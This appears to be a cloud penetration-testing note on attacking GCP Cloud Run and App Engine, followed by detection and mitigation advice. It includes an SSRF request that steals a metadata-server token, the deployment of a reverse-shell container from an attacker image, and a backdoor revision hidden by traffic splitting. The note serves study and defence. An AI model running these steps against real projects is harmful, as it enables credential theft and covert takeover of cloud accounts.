

# GCP Cloud Run and App Engine Exploitation

## 1. Introduction to GCP Serverless Platforms

Google Cloud Platform offers multiple serverless computing options, predominantly **App Engine** (Standard and Flexible environments) and **Cloud Run**. These services allow developers to deploy applications or containers without managing the underlying infrastructure.

From an offensive perspective, serverless environments are highly attractive targets. While attackers cannot traditionally "root" the underlying node (as it is abstracted and managed by Google), they can exploit the application layer to achieve Server-Side Request Forgery (SSRF) or Remote Code Execution (RCE). The primary goal post-compromise in these environments is to leverage the attached identity—the Service Account—to pivot into the broader GCP environment.

### The Metadata Server in Serverless
Similar to Compute Engine, App Engine and Cloud Run provide a Metadata Server at `169.254.169.254` (or `metadata.google.internal`). However, unlike legacy Compute Engine setups, the serverless metadata server *strictly enforces* the `Metadata-Flavor: Google` HTTP header. This mitigates basic, blind SSRF attacks where the attacker cannot control HTTP headers.

## 2. The Danger of Default Service Accounts

A major source of vulnerabilities in GCP serverless environments is the reliance on Default Service Accounts.

1.  **App Engine Default Service Account:** Formatted as `project-id@appspot.gserviceaccount.com`. By default, this account is granted the highly privileged **Editor** role (`roles/editor`) on the project.
2.  **Compute Engine Default Service Account:** Formatted as `1234567890-compute@developer.gserviceaccount.com`. By default, Cloud Run uses this account, which also possesses the **Editor** role on the project.

If an attacker extracts the token for these default accounts, they immediately gain project-wide modification rights, allowing them to spin up resources, modify IAM policies, and access data across almost all GCP services.

## 3. Attack Vector 1: SSRF to IAM Token Extraction

If an application hosted on Cloud Run or App Engine is vulnerable to SSRF, and the attacker can inject HTTP headers, they can query the metadata server.

### Execution

The target endpoint is the token URI:
`http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token`

**Attacker Payload (cURL equivalent of the SSRF):**
```http
GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1
Host: 169.254.169.254
Metadata-Flavor: Google
```

If successful, the server returns a JSON response containing the `access_token`.
The attacker can then use this token locally to enumerate the project:
```bash
export TOKEN="ya29.c.c0ay_Vp..."
curl -H "Authorization: Bearer $TOKEN" https://cloudresourcemanager.googleapis.com/v1/projects
```

### ASCII Architecture Diagram: Serverless SSRF



## 4. Attack Vector 2: Privilege Escalation via Malicious Container Deployment

If an attacker holds compromised credentials with the permissions to deploy or update Cloud Run services (`roles/run.admin` or `run.services.update`) AND the `roles/iam.serviceAccountUser` role on the attached service account, they can escalate their privileges to match that of the service account.

This is a classic "Pass-the-Role" privilege escalation.

### Execution: Injecting a Reverse Shell Container

1.  **Identify Target Service:**
    ```bash
    gcloud run services list
    ```
2.  **Deploy Malicious Revision:**
    The attacker creates a container that simply connects back to their C2 server and runs `/bin/sh`.
    ```bash
    gcloud run deploy vulnerable-service \
      --image attacker/reverse-shell-container:latest \
      --service-account privileged-sa@target-project.iam.gserviceaccount.com \
      --region us-central1
    ```
3.  **Trigger the Exploit:**
    Once deployed, the attacker curls the Cloud Run URL. The reverse shell connects back. The attacker is now inside the container, running as `privileged-sa`.
4.  **Extract the Token:**
    From inside the reverse shell:
    ```bash
    curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token
    ```

## 5. Attack Vector 3: Unauthenticated Invocations

Cloud Run and App Engine applications can be configured to allow unauthenticated access. This is done by granting the `roles/run.invoker` (for Cloud Run) or `roles/appengine.appViewer` role to the special `allUsers` IAM member.

While intended for public websites, this is often misconfigured on internal APIs, microservices, or administrative backends that lack their own application-level authentication.

### Enumeration
An attacker can enumerate public Cloud Run services by inspecting the IAM policy of the service.
```bash
gcloud run services get-iam-policy target-service --region us-central1
```
**Vulnerable Output:**
```yaml
bindings:
- members:
  - allUsers
  role: roles/run.invoker
```
If this is present, any user on the internet can hit the service URL. If the service interacts with internal VPC resources (via Serverless VPC Access) or exposes sensitive data, it becomes a direct ingress point.

## 6. Persistence: Modifying Revisions and Traffic Splitting

In App Engine and Cloud Run, code is deployed as "Revisions" or "Versions". An advanced persistence technique involves deploying a slightly backdoored version of the application and using "Traffic Splitting" to route only a small percentage (e.g., 1%) of traffic to the malicious revision.

This allows the attacker to maintain a stealthy foothold. They can periodically hit the application until they hit the malicious revision, executing their backdoor.

```bash
gcloud run services update-traffic my-service \
  --region us-central1 \
  --to-revisions=my-service-good=99,my-service-backdoor=1
```

## 7. Detection and Threat Hunting

1.  **Cloud Audit Logs (Admin Activity):** Monitor for `CreateService`, `UpdateService`, and `DeployVersion` API calls. Look for anomalous source IPs or unusual container image registries (e.g., images pulled from Docker Hub instead of Google Artifact Registry).
2.  **IAM Policy Modifications:** Alert on any modification that adds `allUsers` or `allAuthenticatedUsers` to the `roles/run.invoker` role.
3.  **VPC Flow Logs:** If the serverless environment uses a Serverless VPC Access connector, monitor flow logs for anomalous outbound connections from the serverless subnets, indicating a reverse shell or SSRF exfiltration.
4.  **Metadata Server Monitoring:** Monitor Cloud Logging for excessive or unusual token generation requests from the serverless environments.

## 8. Mitigation Strategies

1.  **Never Use Default Service Accounts:** Create dedicated, least-privilege service accounts for every App Engine and Cloud Run deployment. Enforce this via the `iam.disableServiceAccountCreation` and `iam.automaticIamGrantsForDefaultServiceAccounts` Organization Policies.
2.  **Enforce Ingress Controls:** Restrict ingress to `internal` or `internal-and-cloud-load-balancing` to prevent direct public exposure of backend microservices.
3.  **Require Authentication:** Ensure `allUsers` is stripped from `run.invoker` policies. Use Identity-Aware Proxy (IAP) or native Cloud Run authentication requiring valid OIDC identity tokens.
4.  **VPC Service Controls:** Place Cloud Run and App Engine in a VPC SC perimeter to mitigate token exfiltration. Even if an attacker steals the service account token via SSRF, the VPC SC perimeter will prevent them from using that token from outside the designated network boundary.

## 9. Chaining Opportunities

*   **[[05 - Exploiting GCP Metadata Server SSRF]]**: Expanding on the specific headers and bypass techniques required for SSRF.
*   **[[11 - Bypassing VPC Service Controls in GCP]]**: Techniques to utilize stolen serverless tokens when VPC SC is active.
*   **[[02 - IAM Privilege Escalation Paths in GCP]]**: Combining `run.admin` with `iam.serviceAccountUser` for full project takeover.

## 10. Related Notes

*   [[01 - Introduction to GCP Security Primitives]]
*   [[03 - Abusing Compute Engine Default Service Accounts]]
*   [[08 - Extracting Secrets from GCP Secret Manager]]
